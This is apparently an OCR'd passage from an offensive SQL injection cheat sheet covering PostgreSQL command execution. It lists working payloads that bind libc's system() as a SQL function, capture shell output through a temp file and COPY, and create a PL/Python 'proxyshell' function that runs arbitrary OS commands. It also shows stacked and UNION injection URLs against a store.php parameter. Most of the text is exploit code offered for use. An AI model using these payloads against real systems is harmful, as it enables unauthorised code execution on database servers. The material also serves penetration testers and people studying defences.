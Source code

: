 - `CREATE FUNCTION system(cstring) RETURNS int AS '/lib/libc.so.6', 'system' LANGUAGE 'C' STRICT`

Since `system` returns an `int` how we can fetch results from `system` stdout?

Here's a little trick:

- create a `stdout` table
`CREATE TABLE stdout(id serial, system_out text)`

- executing a shell command redirecting its `stdout`
`SELECT system('uname -a &gt; /tmp/test')`

- use a `COPY` statements to push output of previous command in `stdout` table
`COPY stdout(system_out) FROM '/tmp/test*'`

- retrieve output from `stdout`
`SELECT system_out FROM stdout`

###### Example

```sql
/store.php?id=1; CREATE TABLE stdout(id serial, system_out text) -- 
/store.php?id=1; CREATE FUNCTION system(cstring) RETURNS int AS '/lib/libc.so.6','system' LANGUAGE 'C'
STRICT --
/store.php?id=1; SELECT system('uname -a > /tmp/test') --
/store.php?id=1; COPY stdout(system_out) FROM '/tmp/test' --
/store.php?id=1 UNION ALL SELECT NULL,(SELECT system_out FROM stdout ORDER BY id DESC),NULL LIMIT 1 OFFSET 1--
```

##### Plpython

PL/Python allows users to code PostgreSQL functions in python. It's untrusted so there is no way to restrict what user can do. It's not installed by default and can be enabled on a given database by `CREATELANG`

- Check if PL/Python has been enabled on a database:
`SELECT count(*) FROM pg_language WHERE lanname='plpythonu'`

- If not, try to enable:
`CREATE LANGUAGE plpythonu`

- If either of the above succeeded, create a proxy shell function:
`CREATE FUNCTION proxyshell(text) RETURNS text AS 'import os; return os.popen(args[0]).read() 'LANGUAGE plpythonu`

- Have fun with:
`SELECT proxyshell(os command);`

###### Example

- Create a proxy shell function:
`/store.php?id=1; CREATE FUNCTION proxyshell(text) RETURNS text AS ‘import os;return os.popen(args[0]).read()’ LANGUAGE plpythonu;--`

- Run an OS Command:
`/store.php?id=1 UNION ALL SELECT NULL, proxyshell('whoami'), NULL OFFSET 1;--`
